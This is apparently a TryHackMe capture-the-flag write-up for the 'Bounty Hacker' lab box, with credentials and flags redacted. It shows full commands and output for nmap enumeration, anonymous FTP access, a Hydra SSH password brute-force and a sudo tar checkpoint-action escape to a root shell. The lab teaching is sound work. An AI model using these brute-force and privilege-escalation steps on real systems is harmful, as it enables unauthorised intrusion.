 ```yaml
---
title: Bounty Hacker
tags: [TryHackMe, Facile, Bruteforce]
style: border
color: "danger"
modified: 2024-08-26
comments: false
description: Une box particulièrement facile pour débuter
---
```


# TryHackMe: Bounty Hacker <!-- omit in toc -->

![box image](https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)
![Easy](https://img.shields.io/badge/Difficulty-Easy-Green?logo=tryhackme)

>All the important informations like usernames, passwords, and flags will be  redacted so everybody can take the challenge. Have fun!

## Table of Content <!-- omit in toc -->

* [1. Enumeration](#1-enumeration)
* [2. The FTP Server](#2-the-ftp-server)
* [3. Bruteforce SSH with Hydra](#3-bruteforce-ssh-with-hydra)
* [4. Connection to the server](#4-connection-to-the-server)
  * [4.1. User flag](#41-user-flag)
  * [4.2. Root access](#42-root-access)

---

## 1. Enumeration

The first task of this box is to find open port. So let's run `nmap`.

```bash
$ nmap -T4 -A 10.10.xx.xx 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-20 11:59 CET
Nmap scan report for 10.10.xx.xx
Host is up (0.042s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.63.xxx
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.96 seconds
```

We found a FTP server with anonymous login allowed on port 21, a SSH server on port 22, and an Apache web server on port 80.

The web server allows us to understand the story of our character. Nothing useful for the next steps.

## 2. The FTP Server

Let's check what we can find in the FTP server.

```bash
$ ftp anonymous@10.10.xx.xx  
Connected to 10.10.xx.xx.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

We can download the files with the `get <file>` command.

If we open the `task.txt` file, we can find the name required for to answer the first question of the box

```bash
$ cat task.txt    
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

[redacted]
```

The other document looks like a passwords file. Maybe we can use it to perform some bruteforce attack on the SSH server.

```bash
$ head -n 5 locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
```

## 3. Bruteforce SSH with Hydra

Now we have a potential username within the `task.txt` file and what might be a passwords file, let's check if we can find the right password.

```bash
$ hydra -l [redacted] -P locks.txt 10.10.xx.xx ssh   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-20 12:24:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.xx.xx:22/
[22][ssh] host: 10.10.xx.xx   login: [redacted]   password: [redacted]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-20 12:24:27
```

We have a match! Now we can access the machine via SSH

## 4. Connection to the server

### 4.1. User flag

```bash
$ ssh [redacted]@10.10.xx.xx
[redacted]@10.10.xx.xx's password: 
[redacted for brevity]
[redacted]@bountyhacker:~/Desktop$ ls -hl
total 4.0K
-rw-rw-r-- 1 [redacted] [redacted] 21 Jun  7  2020 user.txt
[redacted]@bountyhacker:~/Desktop$ cat user.txt 
[redacted]
```

The user flag can easily be found on the user desktop. Now let's escalate our privileges.

### 4.2. Root access

```bash
[redacted]@bountyhacker:~/Desktop$ sudo -l
[sudo] password for [redacted]: 
Matching Defaults entries for [redacted] on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User [redacted] may run the following commands on bountyhacker:
    (root) /bin/tar
```

The user has the ability to use the command `/bin/tar` as sudo user. The [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) website will help us taking advantage of this privilege.

```bash
[redacted]@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
```

We got the root shell with the command we found! Now we are close to find the root flag.

```bash
root@bountyhacker:~# cd /root
root@bountyhacker:/root# cd ~/Desktop/
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls -hl
total 4.0K
-rw-r--r-- 1 root root 19 Jun  7  2020 root.txt
root@bountyhacker:/root# cat root.txt 
[redacted]
```
